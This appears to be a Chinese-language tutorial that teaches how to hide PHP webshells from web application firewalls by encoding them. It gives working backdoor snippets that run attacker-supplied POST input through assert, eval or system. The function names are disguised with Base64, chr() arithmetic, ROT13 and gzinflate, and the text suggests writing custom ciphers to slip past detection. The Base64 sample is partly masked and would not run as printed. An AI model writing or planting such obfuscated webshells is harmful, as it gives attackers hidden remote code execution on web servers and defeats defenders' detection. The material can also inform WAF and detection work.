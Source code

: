 ## 1# 编码绕过

这算是早期的免杀手法，可以通过编码来绕过 WAF 的检测，如下：

### 1.1 Base64 编码

```plain
<?php
$f = base64_decode("YX____Nz__ZX__J0");  //解密后为 assert 高危函数
$f($_POST[aabyss]);                      //assert($_POST[aabyss]);
?>
```

### 1.2 ASCII 编码

```plain
<?php
//ASCII 编码解密后为 assert 高危函数
$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);
$f($_POST['aabyss']);                //assert($_POST['aabyss']);
?>
```

我们再来看一个 ASCII 的拓展应用：

```plain
<?php
$_uU=chr(99).chr(104).chr(114);   //$_uU=chr
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);   //$_cC=eval($_POST[1]);
$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);   //$_fF=create_function
$_=$_fF("",$_cC);   //$_=create_function("",eval($_POST[1]);)
@$_();
?>
```

### 1.3 ROT13 编码

```plain
$f = str_rot13('flfgrz');  //解密后为 system 高危函数
$f($_POST['aabyss']);      //system($_POST['aabyss']);
```

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对 WAF 进行 ByPass

### 1.4 Gzip 压缩加密

我先举一个 `phpinfo()` 加密后的示例：

```plain
/*Protected by AabyssZG*/
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA')));
```
